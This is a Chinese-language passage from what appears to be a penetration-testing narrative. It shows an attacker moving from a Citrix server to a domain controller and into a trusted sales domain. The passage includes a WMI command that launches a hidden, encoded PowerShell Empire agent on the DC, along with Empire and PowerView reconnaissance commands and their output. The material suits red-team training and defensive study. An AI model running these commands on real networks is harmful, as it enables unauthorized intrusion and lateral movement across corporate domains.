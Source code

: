 > 提示：对Windows域的完全限定域名（FQDN）发出nslookup返回DC的IP地址

我们可以做出合理的假设，来自多个商店的销售文件将通过FTP自动发送到这个集中的位置。我们可以一直潜伏到下一次传输，并在文件被删除之前抓取它们，但我们会把这作为最后的手段。让我们继续我们的发现过程。

除了Citrix机器和一些文件服务器之外，GBShop域上似乎没有什么进展。似乎它主要是为其他内部组件提供一种中继或缓冲。这是隔离环境和保护关键资产的聪明方法。

正如我们前面看到的，例如，如果我们尝试从 Citrix 服务器访问 GBSales 域，我们无法获得响应。

但是，两个域（GBSHOP 和 GBSALES）之间存在信任关系，因此，至少几个关键组件之间允许一些连接。

如果我们查看Microsoft的文档，它会清楚地指出在两个域的域控制器之间必须打开以下端口( 作者提示参阅https://technet.microsoft.com/en-us/library/cc756944(v=ws.10).aspx )：
- 445用于文件传输
- 88用于Kerberos身份验证
- 135用于RPC通信
- 389用于LDAP通信
- RPC通信的几个动态端口

现在有意思了。这意味着，要想在GBSALES部门获得成功，我们必须通过GBSHOP域控制器。我不太喜欢在DC上执行攻击载荷，但这次我们真的没有选择…

使用Citrix服务器上PowerShell命令行上的WMI，我们在DC服务器上执行一个远程进程，该进程生成一个Empire代理：
```
#$cmd holds an Empire agent
PS > $cmd= "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTA[…]"
PS > invoke-wmimethod -ComputerName SV0198 win32_process -name
create -argumentlist ($cmd)
```
![](chap5/chap5-1.jpg)

我们尝试在GBSALES主域控制器上列出共享（端口445）：
```
(Empire: DCshop) > shell "net view 10.30.30.88"
(Empire: DCshop) > 
net view 10.30.30.88
Shared resources at 10.30.30.88
---------------------------------------------------------
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
The command completed successfully.
```

正如所料，我们现在可以“看到”一些GBSales资源。另外，由于两个域之间的信任关系，我们可以使用GBSHOP域用户查询GBSales机器。不过，我们最多只能拥有标准用户权限！因此，准备迎接一个新的特权升级情景！

## 销售域

### 相互了解
为了帮助我们想象在GBSALES域上跳转的方式，我们从了解域的基本布局开始。我们使用前面显示的侦察模块get_domain_controller列出所有GBSALES域控制器：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > set Domain GBSALES.CORP
(Empire: get_domain_controller) > execute
Job started: Debug32_rx9ml
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
Domain : GBSALES.CORP
IPAddress : 10.30.30.88
[…]
Forest : GBSALES.CORP
OSVersion : Windows Server 2012 R2
```